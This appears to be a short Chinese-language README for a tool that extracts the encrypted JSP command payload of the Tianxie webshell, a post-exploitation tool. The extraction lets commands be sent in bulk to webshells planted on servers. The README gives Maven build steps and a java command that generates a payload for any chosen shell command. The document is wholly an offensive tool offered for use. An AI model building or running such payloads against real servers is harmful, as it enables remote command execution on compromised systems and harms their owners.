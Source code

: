# 提取天蝎webshell的JSP的payload

天蝎webshell的JSP payload使用了asm来操作java字节码，然后加密发送到webshell端。天蝎webshell是GUI界面的，不便于批量执行命令，这里将CMD独立提取出来，生成payload.class，可以将其集成到其他程序中以批量执行命令。

## 编译

```
cd txws
mvn clean package
```

## 运行

```
cd target\classes
cp config .
cp lib .

java -cp lib/asm-9.0.jar; com.txws.CMD <command>

java -cp lib/asm-9.0.jar; com.txws.CMD dir  # 生成执行dir命令的payload
```
